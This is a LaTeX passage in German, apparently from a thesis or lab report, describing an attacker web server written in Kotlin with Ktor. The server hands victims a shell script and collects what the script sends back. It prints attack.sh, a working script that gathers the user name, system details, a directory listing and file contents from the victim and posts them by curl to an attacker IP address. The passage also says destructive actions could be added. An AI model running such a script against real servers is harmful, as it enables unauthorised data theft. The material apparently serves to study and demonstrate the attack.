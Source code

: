 \clearpage
\subsubsection{Der Angreifer-Webserver}


Wir haben uns bei der Implementierung des Angreifer-Webservers für das Framework Ktor~\cite{KtorWebsite} in der Programmiersprache Kotlin~\cite{KotlinProgrammingLanguage} entschieden.

Der Webserver besteht aus folgenden Bestandteilen:
\begin{itemize}
    \item Die attack.sh Script-Datei, welche definiert, welche Aktionen auf dem Opfer-Server ausgeführt werden und die abgefangene Daten zurück an den Angreifer-Server sendet
    \item Einer GET Route /attack, die den Inhalt einer .sh Datei zurückgibt, welcher auf dem Server des Opfers ausgeführt wird
    \item Einer POST Route /report, an die abgefangene Daten gesendet werden können
\end{itemize}


\begin{lstlisting}[language=Bash, caption=attach.sh Script,label={lst:attacksh}]
#!/bin/bash

REST_URL="http://192.168.16.125:8080"

function report() {
  curl -X POST -F "key=$1" -F "value=$2" -v "$REST_URL/report"
}

report "user" "$(whoami)"
report "ram" "$(free -m)"
report "cpu" "$(lscpu)"
report "ls" "$(ls -la)"
report "test" "$(tail -n 20 test.php)"
\end{lstlisting}
\vspace{5mm}

\begin{itemize}
    \item Es wird eine Adresse/Domain definiert, unter der der Restserver erreichbar ist
    \item Es wird eine report() Funktion definiert, welche per CURL einen POST Request an den /report Endpunkt sendet.
    Der erste Parameter der Funktion ist eine Beschreibung, welche Information abgegriffen wird (Key), der zweite Parameter der Value, also die Daten, die für diesen Key abgegriffen wurden.
    \item Für jede information, die abgegriffen werden soll, wird die report Funktion aufgerufen. Per \$(command) wird die Ausgabe eines Commands zurückgeben und hier als Parameter an die report()-Funktion übergeben
    \item Weitere, auch schreibende oder zerstörende Aktionen, können in der Datei definiert werden
\end{itemize}

